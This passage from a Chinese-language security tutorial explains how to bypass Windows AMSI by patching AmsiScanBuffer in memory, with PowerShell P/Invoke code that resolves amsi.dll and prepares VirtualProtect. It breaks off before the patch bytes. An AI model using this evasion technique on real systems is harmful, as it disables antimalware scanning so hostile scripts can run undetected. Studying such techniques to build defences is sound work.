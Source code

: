 ##### 3. AmsiScanBuffer 内存补丁 (Patching AMSI - AmsiScanBuffer Memory Patch)

- **原理**: AMSI 的核心扫描功能由 `amsi.dll` 中的导出函数 `AmsiScanBuffer`（和/或 `AmsiScanString`）实现。这个 DLL 在 PowerShell 等进程启动时被加载到其地址空间。由于 PowerShell 进程与 `amsi.dll` 通常具有相同的权限级别，因此理论上可以在运行时修改 `amsi.dll` 在内存中的代码，特别是 `AmsiScanBuffer` 函数的开头几个字节，使其直接返回一个“干净”或“未检测到”的结果，从而绕过实际的扫描逻辑。
    
- **高层步骤**:
    
    1. 获取 `amsi.dll` 模块在当前进程中的句柄 (基地址)。
    2. 获取 `AmsiScanBuffer` 函数在内存中的地址。
    3. 修改 `AmsiScanBuffer` 函数地址处内存区域的保护属性，使其变为可写。
    4. 向 `AmsiScanBuffer` 函数的起始位置写入一小段机器码 (Opcode)，这段机器码的作用是修改函数的返回值（例如，使其总是返回 `AMSI_RESULT_CLEAN` 或 `AMSI_RESULT_NOT_DETECTED`）。
- PowerShell 实现:
    
    需要使用 P/Invoke 调用一些 Windows API 函数。
    
    1. **定义 P/Invoke 函数 (C# 语法嵌入 PowerShell)**:
        
        PowerShell
        
        ```
        $MethodDefinition = @"
        using System;
        using System.Runtime.InteropServices;
        
        public class Kernel32 {
            [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)] // CharSet.Ansi for string procName
            public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        
            [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)] // CharSet.Unicode for string lpModuleName
            public static extern IntPtr GetModuleHandle(string lpModuleName);
        
            [DllImport("kernel32.dll", SetLastError = true)]
            public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        }
        "@
        ```
        
    2. **加载 P/Invoke 函数**:
        
        PowerShell
        
        ```
        $Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru
        ```
        
    3. **获取 `amsi.dll` 句柄和 `AmsiScanBuffer` 地址**:
        
        PowerShell
        
        ```
        $handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll')
        if ($handle -eq [IntPtr]::Zero) { Write-Error "Failed to get handle for amsi.dll"; return }
        